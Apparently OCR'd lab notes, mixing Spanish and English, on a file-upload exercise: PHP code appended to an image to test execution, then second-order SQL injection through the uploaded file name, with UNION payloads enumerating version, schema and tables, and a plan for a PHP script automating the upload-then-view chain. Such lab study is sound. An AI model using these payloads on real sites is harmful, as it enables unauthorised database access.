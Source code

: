 ### Lab

* Imagen de carga
* ir a **Lista de firmas de archivos** en wikipedia
* Ver el valor de los archivos jpg

Trate de aumentar el valor con código php en él

```php
<?php phpinfo();
```

Trate de abrir la imagen subida, si la página tiene manejador de php abrirá el phpinfo

```sql
# If not, procced to test the file name with BURP > Repeater
filename="example.php' and true -- -"

# If the number of view increase, lets try with UNION this time
filename="example.php' UNION SELECT @@VERSION; -- -"
filename="' UNION SELECT @@VERSION; -- -" //take off the name of the file
filename="' UNION SELECT SCHEMA(); -- -"
filename="' UNION SELECT GROUP_CONCAT(table_name) from information_schema.tables where table_schema = SCHEMA(); -- -"
```

nuestro escenario:

```
[>] Injection
Name of the file uploaded, e.g. ' union select @version; -- -
** via POST request **
```

```
[*] Execution
view.php?file={our_payload}
** via GET request **
```

Abajo:

```
sqlmap (2nd order) works only GET to GET i.e. we beed a python plugin
burp needs a java plugin
```

Altos:

```
out php script

1. GETs the payload in input
2. Generates the respective image payload (POST req)
3. Generates the respective GET req, to view page and reflect the result client-side
```

* So we create a php page, opened with apache2 server to execute payloads
